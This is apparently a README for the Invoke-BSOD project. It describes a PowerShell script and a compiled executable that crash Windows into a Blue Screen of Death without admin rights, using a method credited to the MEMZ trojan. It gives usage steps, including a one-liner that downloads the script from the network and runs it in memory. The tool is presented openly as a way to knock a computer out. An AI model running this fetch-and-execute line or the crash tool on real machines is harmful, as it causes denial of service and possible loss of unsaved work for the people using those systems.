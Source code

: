 # Invoke-BSOD
For when you want a computer to be done - without admin!

BSOD method from here: https://github.com/Leurak/MEMZ/blob/master/WindowsTrojan/Source/Destructive/KillWindows.c#L10-L18

### Invoke-BSOD.ps1

A PowerShell script to induce a Blue Screen of Death (BSOD) without admin privileges. Also enumeartes Windows crash dump settings.

This is a standalone script, **it does not depend on any other files here.**

#### Invoke-BSOD
Invokes the Blue Screen of Death.

#### Get-DumpSettings
Returns the current crash dump settings so you'll know what type of dump you are going to generate, and where it is going to be.

Usage:
```
PS>Import-Module .\Invoke-BSOD.ps1
PS>Get-DumpSettings

  Name                           Value
  ----                           -----
  DumpFileLocation               C:\WINDOWS\MEMORY.DMP
  OverwritePrevious              True
  AutoReboot                     True
  AutoDeleteWhenLowSpace         False
  SystemLogEvent                 True
  CrashDumpMode                  Automatic Memory Dump
  
PS>Invoke-BSOD
```
OR...
```
PS>IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD
```
### BSOD.exe

A compiled executable that also creates a Blue Screen of Death.

Useful when you don't have PowerShell?

### Program.cs

The C# source behind BSOD.exe
